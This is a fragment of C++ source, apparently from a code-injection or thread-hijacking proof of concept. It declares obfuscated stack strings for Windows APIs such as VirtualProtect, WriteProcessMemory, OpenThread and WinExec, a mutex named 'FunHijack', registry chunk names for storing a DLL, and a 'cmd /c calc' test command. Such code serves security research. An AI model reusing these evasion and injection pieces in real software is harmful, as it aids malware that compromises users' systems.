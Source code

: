 ```cpp
    WCHAR nChunksValue[] = { 'C', 'h', 'u', 'n', 'k', 's', '\0' };

    // Mutex
    WCHAR mutexName[] = { 'F', 'u', 'n', 'H', 'i', 'j', 'a', 'c', 'k', '\0' };

    // Symbols from MSVCRT
    CHAR mallocName[] = { 'm', 'a', 'l', 'l', 'o', 'c', '\0' };
    CHAR memsetName[] = { 'm', 'e', 'm', 's', 'e', 't', '\0' };
    CHAR memcpyName[] = { 'm', 'e', 'm', 'c', 'p', 'y', '\0' };
    CHAR freeName[] = { 'f', 'r', 'e', 'e', '\0' };
#ifdef _DEBUG
    CHAR printfName[] = { 'p', 'r', 'i', 'n', 't', 'f', '\0' };
#endif

    // Symbols from KERNEL32
    CHAR SleepName[] = { 'S', 'l', 'e', 'e', 'p', '\0' };
    CHAR LoadLibraryName[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'W', '\0' };
    CHAR RegOpenKeyName[] = { 'R', 'e', 'g', 'O', 'p', 'e', 'n', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegDeleteKeyName[] = { 'R', 'e', 'g', 'D', 'e', 'l', 'e', 't', 'e', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegGetValueName[] = { 'R', 'e', 'g', 'G', 'e', 't', 'V', 'a', 'l', 'u', 'e', 'W', '\0' };
    CHAR OpenThreadName[] = { 'O', 'p', 'e', 'n', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR ResumeThreadName[] = { 'R', 'e', 's', 'u', 'm', 'e', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR OpenMutexName[] = { 'O', 'p', 'e', 'n', 'M', 'u', 't', 'e', 'x', 'W', '\0' };
    CHAR CloseHandleName[] = { 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', '\0' };
    CHAR RegCloseKeyName[] = { 'R', 'e', 'g', 'C', 'l', 'o', 's', 'e', 'K', 'e', 'y', '\0' };
    CHAR WinExecName[] = { 'W', 'i', 'n', 'E', 'x', 'e', 'c', '\0' };
    CHAR VirtualProtectName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'P', 'r', 'o', 't', 'e', 'c', 't', '\0' };
    CHAR WaitForSingleObjectName[] = { 'W', 'a', 'i', 't', 'F', 'o', 'r', 'S', 'i', 'n', 'g', 'l', 'e', 'O', 'b', 'j', 'e', 'c', 't', '\0' };
    CHAR ExitThreadName[] = { 'E', 'x', 'i', 't', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };


#ifndef NO_LIB_RELOAD
    CHAR FreeLibraryName[] = { 'F', 'r', 'e', 'e', 'L', 'i', 'b', 'r', 'a', 'r', 'y', '\0' };
#endif
#ifdef WPM
    CHAR WriteProcessMemoryName[] = { 'W', 'r', 'i', 't', 'e', 'P', 'r', 'o', 'c', 'e', 's', 's', 'M', 'e', 'm', 'o', 'r', 'y', '\0' };
#endif

    // Command to launch
    CHAR WinExecCommand[] = { 'c', 'm', 'd', ' ', '/', 'c', ' ', 'c', 'a', 'l', 'c', '\0' };


#ifdef USE_REGISTRY_FOR_DLL
    // Chunk values -- Pretty unelegant
    WCHAR chunkValue1[] = { 'S', 'C', '1', '\0' };
    WCHAR chunkValue2[] = { 'S', 'C', '2', '\0' };
    WCHAR chunkValue3[] = { 'S', 'C', '3', '\0' };
#else
    WCHAR savedDllAddress[] = { 'D', 'l', 'l', '\0' };
#endif

    // DLL to load via LoadLibraryA
    WCHAR msvcrtdllName[] = { 'm', 's', 'v', 'c', 'r', 't', '.', 'd', 'l', 'l', '\0' };
    WCHAR advapi32dllName[] = { 'a', 'd', 'v', 'a', 'p', 'i', '3', '2', '.', 'd', 'l', 'l', '\0' };
    WCHAR rpcrt4dllName[] = { 'r', 'p', 'c', 'r', 't', '4', '.', 'd', 'l', 'l', '\0' };

    // DLLs to dynamically load during runtime
    HMODULE kernel32dll, msvcrtdll, advapi32dll;
    // Symbols to dynamically resolve from dll during runtime
```